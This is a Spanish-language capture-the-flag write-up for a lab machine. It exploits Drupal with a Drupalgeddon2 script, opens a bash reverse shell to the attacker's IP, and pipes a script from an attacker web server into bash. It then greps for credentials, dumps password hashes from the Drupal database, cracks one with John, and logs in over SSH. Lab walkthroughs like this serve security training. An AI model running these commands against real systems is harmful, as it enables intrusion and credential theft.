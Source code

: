 ## Vuln exploit & Gaining Access {-}

### Druppalgeddon {-}

```bash
ruby druppalgeddon2.rb 10.10.10.233
whoami
#Output
> apache
ifconfig
#Output
> 10.10.10.233
```

Entablamos ahora una reverse shell para sacarse de este contexto.

1. maquina de attackante

    ```bash
    nc -nlvp 443
    ```

1. druppalgeddon2 shell

    ```bash
    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

Esto no functiona porque le commando contiene **bad chars**. Como la maquina no tiene **nc** ni **ncat** la tecnica seria la siguiente:

1. Creamos un archivo *index.html* que contiene

    ```html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. En la drupalgeddon2 shell

    ```bash
    curl -s 10.10.14.20 | bash
    ```
    
ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
```

En este caso no nos va el tratamiento de la **TTY**. En este caso lo que hacemos es utilizar el `rlwrap nc -nlvp 443`

### Investigamos la maquina {-}

```bash
pwd
#Output
/var/www/html

ls -l
#Output
muchas cosas

grep -r -E -i "user|pass|key"
#Output
muchas cosas

grep -r -E -i "username|pass|key"
#Output
muchas cosas
```

Como hay muchas cosas y es difficil de analizar usamos el commando `find` y vamos quitando con el commando `grep -v` las cosas que no 
nos interressan poco a poco.

```bash
find \-type -f 2>/dev/null
find \-type -f 2>/dev/null | grep -v "themes"
find \-type -f 2>/dev/null | grep -v -E "themes|modules"
```

Ahora ya se puede investigar manualmente. Apuntamos los recursos que parecen interessantes.

- authorize.php
- cron.php
- includes/database
- includes/password.inc
- sites/default/

Lo miramos hasta que encontremos cosas interessantes. En un fichero encontramos un user **drupaluser** y su contraseña.

Miramos los usuarios de la maquina 

```bash
grep "sh$" /etc/passwd
#Output
root
brucetherealadmin
```

Como el servicio ssh esta abierto miramos si la contraseña functiona con el usuario brucetherealadmin pero no functiona.

Como hemos visto ficheros *mysql* intentamos connectar con el **drupaluser** y functiona.

```bash
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'show databases;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; show tables;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; describe users;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; select name,pass from users;'
```

Encontramos el usuario 'brucetherealadmin' y su contraseña encryptada.

### John {-}

1. copiamos el hash en un fichero llamado `hash`
1. john --wordlist=/usr/share/wordlists/rockyout.txt hash

Ya tenemos contraseña para el usuario *brucetherealadmin*

### SSH {-}

```bash
ssh brucetherealadmin@10.10.10.233
```

ya tenemos la flag user.txt
